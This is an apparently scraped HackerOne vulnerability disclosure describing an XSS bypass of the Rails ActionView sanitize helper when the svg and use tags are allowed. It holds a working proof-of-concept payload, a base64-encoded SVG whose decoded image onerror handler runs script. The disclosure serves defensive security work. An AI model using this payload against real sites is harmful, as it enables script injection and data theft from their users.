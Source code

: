 # ActionView sanitize helper bypass leading to XSS using SVG tag.

## Report Details
- **Report ID**: 1694173
- **URL**: https://hackerone.com/reports/1694173
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-09-07T21:38:41.443Z
- **Disclosed**: 2023-07-10T13:21:43.554Z

## Reporter
- **Username**: haqpl
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
In the specific configuration, it was possible to bypass HTML sanitization by using the `use` tag of the `SVG` element.

In the `index.html.erb`:

```ruby
<%= sanitize "<svg><use href=\"data:image/svg+xml;base64,PHN2ZyBpZD0neCcgeG1sbnM9J2h0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnJyB4bWxuczp4bGluaz0naHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluaycgd2lkdGg9JzEzMzcnIGhlaWdodD0nMTMzNyc+CjxpbWFnZSBocmVmPSIxIiBvbmVycm9yPSJhbGVydCh3aW5kb3cub3JpZ2luKSIgLz4KPC9zdmc+#x\"/></svg>", tags: %w(svg use) %>
```
`use` tag allows to embed another base64 encoded `SVG` containing target XSS payload, base64 after decoding:

```svg
<svg id='x' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' width='1337' height='1337'>
<image href="1" onerror="alert(window.origin)" />
</svg>
```
`SVG` and `use` tags had to be allowed either in global configuration  `config.action_view.sanitized_allowed_tags = ['svg', 'use']`
or inline with `tags` argument of the helper.

## Impact

XSS could lead to data theft through the attacker’s ability to manipulate data through their access to the application, and their ability to interact with other users, including performing other malicious attacks, which would appear to originate from a legitimate user. These malicious actions could also result in reputational damage for the business through the impact on customers’ trust.

## Attachments
- 2022-09-07_23-29.png
